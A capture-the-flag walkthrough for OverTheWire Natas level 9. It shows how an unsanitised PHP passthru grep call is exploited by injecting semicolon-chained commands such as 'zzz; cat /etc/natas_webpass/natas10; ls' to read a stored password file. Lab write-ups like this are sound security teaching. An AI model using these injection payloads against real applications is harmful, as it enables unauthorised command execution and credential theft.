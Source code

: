 ## Natas Level 9

- URL: http://natas9.natas.labs.overthewire.org

- Open the website

- Analyze the php code in the source code
![SourceCode](images/level_09_02.png)

- We can add our own code to the passthru function 
- `passthru("grep -i $key dictionary.txt");`

- Show the directory we are currently on by setting searching for
- ` `

![PWD](images/level_09_03.png)

- Explanation
    - The reulting query from the above seach string is
    - `grep -i zzz; pwd; ls dictionary.txt`
    - We are using the semicolon to separate different commands
    - We are using `zzz` to make sure grep returns no result
    - `pwd` to print the current working directory
    - `ls` to list the dictionary.txt so that we don't have the word dictionary.txt hanging on its own at the end of the command which could cause the command to fail

- Use the find command to find any file related to natas10 `zzz; find / -type f -name natas10 2>/dev/null; ls`
    > Output: <br>
    > /etc/natas_webpass/natas10
    > dictionary.txt <br>


- Search for `zzz; cat /etc/natas_webpass/natas10; ls` to print the contents of .httpasswd
    > Output: <br>
    > [natas_10_password] <br> 
    > dictionary.txt <br>

<br>
<br>
- PS: Just using the semicolon and the command can also works in some situations

    > `; cat /etc/natas_webpass/natas10`
    > 
    > Output: <br>
    > [natas_10_password] <br>
    > 
    > African <br>
    > Africans  <br>
    > Allah  <br>
    > .....
